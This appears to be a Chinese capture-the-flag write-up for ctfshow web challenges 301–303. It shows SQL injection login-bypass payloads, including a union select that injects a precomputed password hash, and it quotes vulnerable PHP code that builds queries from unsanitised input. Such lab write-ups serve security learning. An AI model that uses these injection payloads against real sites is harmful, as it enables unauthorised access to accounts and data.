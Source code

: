 这里很明显`$username` ,没有过滤而产生 sql注入。

payload:

```php
userid=1'union select 1#&userpwd=1
```

成功登录，拿到flag.

## web302

修改处

```php
if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
```

fun.php:

````php
<?php
function sds_decode($str){
	return md5(md5($str.md5(base64_encode("sds")))."sds");
}
?>
````

在本地尝试一下：

![image-20210209123301141](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210209123301141.png)

构造payload:

```php
userid=1'union select "d9c77c4e454869d5d8da3b4be79694d3"#&userpwd=1
```

## web303

下载地址： https://ctfshow.lanzous.com/i6wtkjg1gxa

seay审计，

![image-20210209124129453](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210209124129453.png)

有注入漏洞，而用户名登陆出限制了用户名长度无法注入。

dptadd.php:

```php
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
```

dpt.php:

```php
<?php
session_start();
require "conn.php";
if(!isset($_SESSION['login'])){
header("location:login.php");
}
?>

<?php
//注入点
	$_GET['id']=!empty($_GET['id'])?$_GET['id']:NULL;
	$page=$_GET['id'];
	$sql="select * from sds_dpt order by id;";
```